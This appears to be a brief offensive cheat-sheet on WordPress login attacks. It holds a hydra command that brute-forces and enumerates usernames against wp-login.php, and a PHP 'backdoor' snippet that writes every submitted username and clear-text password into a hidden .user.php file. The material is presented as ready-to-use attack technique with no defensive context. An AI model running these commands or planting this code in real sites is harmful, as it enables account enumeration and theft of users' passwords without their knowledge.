 # Manual

TODO: Fill in the info

## Username Enumeration

```
$ hydra -V -L users.lst -p password <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

## Backdoor

Backdoor user login forum to harvest the credentials in clear text.

```php
if(!empty($_POST['pwd']) {
	$credentials['user_password'] = $_POST['pwd'];
	// file_put_contents("wp-include/.user.php", "WP: " . $_POST['log']
	file_put_contents("/path/to/wp-include/.user.php", "<change_this>: " . $_POST['<change_this>']
			. " : " . $_POST['pwd'] . "\n", FILE_APPEND);
}
```